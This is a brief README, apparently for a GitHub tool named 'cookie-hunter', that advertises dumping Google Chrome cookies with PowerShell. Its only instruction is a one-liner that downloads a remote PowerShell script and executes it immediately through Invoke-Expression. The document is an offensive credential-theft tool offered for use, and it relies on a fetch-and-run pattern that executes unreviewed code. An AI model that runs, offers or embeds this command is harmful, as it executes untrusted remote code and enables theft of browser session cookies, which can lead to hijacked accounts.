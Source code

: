 # cookie-hunter
Dump google chrome cookies using powershell

#### Dump chrome cookies using oneliner
```powershell
iwr https://raw.githubusercontent.com/ScRiPt1337/cookie-hunter/main/powerdump.ps1 -useb | iex
```

